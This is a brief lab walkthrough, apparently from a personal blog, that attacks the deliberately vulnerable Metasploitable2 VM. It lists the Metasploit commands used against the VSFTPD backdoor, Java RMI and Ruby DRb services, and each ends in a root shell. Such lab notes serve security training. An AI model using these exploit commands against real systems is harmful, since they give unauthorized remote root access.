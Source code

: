 ## <span class="ez-toc-section" id="(WARNING_ongoing_and_many_outright_spoilers!)"></span>(WARNING: ongoing and many outright spoilers!) <span class="ez-toc-section-end"></span>

_192.168.5.88 is the example Metasploitable2 target:_

#### <span class="ez-toc-section" id="VSFTPD"></span>VSFTPD:<span class="ez-toc-section-end"></span>

  * Used &#8216;nmap &#8211;script ftp-vsftpd-backdoor -p 21 192.168.5.88&#8217; to confirm
      * Used msfconsole:
          * &#8216;use exploit/unix/ftp/vsftpd\_234\_backdoor&#8217;
          * &#8216;set RHOSTS 192.168.5.88&#8217;
          * &#8216;exploit&#8217;
          * …got shell as root

#### <span class="ez-toc-section" id="GNU_Classpath_RMI_Registry"></span>GNU Classpath RMI Registry:<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/multi/misc/java\_rmi\_server&#8217;
      * &#8216;set RHOSTS 192.168.5.88&#8217;
      * &#8216;set RPORT 1099&#8217;
      * &#8216;set TARGET 0&#8217;
      * &#8216;run&#8217;
      * …got meterpreter shell as root

#### <span class="ez-toc-section" id="Ruby_DRb_RMI"></span>Ruby DRb RMI<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/linux/misc/drb\_remote\_codeexec&#8217;
      * &#8216;set URI druby://192.168.5.88:8787&#8217;
      * &#8216;run&#8217;
      * …got shell as root

[***...Get back***](..)
